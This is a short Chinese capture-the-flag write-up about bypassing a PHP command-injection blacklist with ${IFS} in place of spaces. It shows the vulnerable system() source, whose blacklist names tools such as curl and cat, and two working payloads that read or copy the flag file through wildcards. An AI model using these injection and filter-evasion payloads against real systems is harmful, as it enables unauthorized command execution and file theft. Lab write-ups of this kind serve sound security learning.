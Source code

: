 # 知识点
${IFS}或者$IFS替换空格
# 思路
源码
```php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```php
方法一 ?c=nl${IFS}/fla?||
方法二 ?c=cp${IFS}/fla?${IFS}a.txt||
```
![image.png](./images/20231017_2350531496.png)![image.png](./images/20231017_2350541292.png)
